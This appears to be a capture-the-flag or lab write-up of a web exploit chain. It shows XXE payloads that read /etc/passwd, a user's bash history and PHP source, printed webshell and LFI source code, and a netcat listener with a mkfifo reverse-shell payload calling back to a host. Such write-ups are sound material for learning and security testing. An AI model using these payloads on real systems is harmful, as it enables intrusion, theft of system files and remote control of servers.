








# Web Exploit

- [Web Exploit](#web-exploit)
  - [reg.php](#regphp)
    - [Observation #1](#observation-1)
      - [Exploit](#exploit)

## reg.php

### Observation #1

  


Enter some information and use Burp to intercept the request:

  


The form is in XML format - could be tested against XXE injection.

<br/>

#### Exploit

Use Burp Repeater to inject a XXE payload, in attempt to dump `/etc/passwd` with the following payload:

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<root><name>&xxe;</name><tel>12121212</tel><email>brain@brain.com</email><password>brainyou</password></root>
```

  


As shown, the content of `/etc/passwd` was dumped in the HTTP response.
- The dump shows `iyer` is a user on the web server

<br/>

Try to dump the iver's `bash_history`:
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/iyer/.bash_history"> ]>

<root><name>&xxe;</name><tel>12121212</tel><email>brain@brain.com</email><password>brainyou</password></root>
```

  

The bash history revealed two interesting files:
- `/var/www/html/Nuclear-Administrator.php`
- `/var/www/Remote-Administration.php`

However, `Remote-Administration.php` cannot be inspected:

  


<br/>

Since the web application is PHP-based, try to extract using PHP filter:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/Remote-Administration.php"> ]>
```

Select the base64 content and press `Ctrl-Shift-B` to decode:

  


The source code:
```
<?php
echo system($_GET['cmd']);
?>

<html>
<head><title>Remote Access</title></head>
<body>
<h1> Remote Access System</h1>
</body>
</html>
```
It appears that `Remote-Administrator.php` is a simple webshell.

Also inspect `/var/www/html/Nuclear-Administrator.php`:

  


The source code:
```
<?php
$file = $_GET['page'];
if(isset($file))
{
include("$file");
}
else
{
include("index.html");
}
?>
```

It shows that the parameter `page` is vulnerable to LFI.

Chaining the LFI vulnerability and webshell found, RCE can be achieved.

Payload:
```
GET /Nuclear-Administrator.php?page=/var/www/Remote-Administration.php&cmd=id
```

  

Launch a netcat listner:
```
nc -nlvp 443
```

To get a reverse shell, use the following payload via Burp:

```
/Nuclear-Administrator.php?page=/var/www/Remote-Administration.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.100.11+443+>/tmp/f
```

  

A reverse shell calls back to the netcat listener:

  
